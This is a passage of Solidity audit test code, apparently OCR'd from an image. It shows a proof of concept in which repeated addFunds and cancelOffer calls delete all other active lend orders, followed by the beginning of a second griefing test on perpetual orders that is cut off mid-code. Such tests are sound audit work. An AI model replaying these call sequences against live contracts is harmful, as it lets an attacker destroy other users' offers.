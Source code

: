 ```solidity
        IERC20(AERO).approve(address(lender1), 25e18);
        lender1.addFunds(5e18);
        lender1.cancelOffer();
        lender1.addFunds(5e18);
        lender1.cancelOffer();
        lender1.addFunds(5e18);
        lender1.cancelOffer();
        lender1.addFunds(5e18);
        lender1.cancelOffer();
        lender1.addFunds(5e18);
        lender1.cancelOffer();

        // All other offers got deleted
        assertEq(DLOFactoryContract.activeOrdersCount(), 0);
    }
```

```solidity
    function testAuditGriefingChangePerpetual() public {
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory lendOrders = allDynamicData
            .getDynamicAddressArray(5);

        ratio[0] = 2e18;
        oraclesPrinciples[0] = address(0x0);
        acceptedPrinciples[0] = AERO;
        oraclesActivated[0] = false;
        ltvs[0] = 0;

        // Create 5 Lend Orders
        for(uint i = 0; i < 5; i++) {
          // Order has to be perpetual
          lendOrders[i] = DLOFactoryContract.createLendOrder(
              true,
              oraclesActivated,
              false,
              ltvs,
              1000,
              8640000,
              86400,
              acceptedPrinciples,
              AERO,
              oraclesPrinciples,
              ratio,
              address(0x0),
              5e18
          );
        }

        address[] memory lendOrdersArr = allDynamicData.getDynamicAddressArray(1);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(1);
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(1);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
```
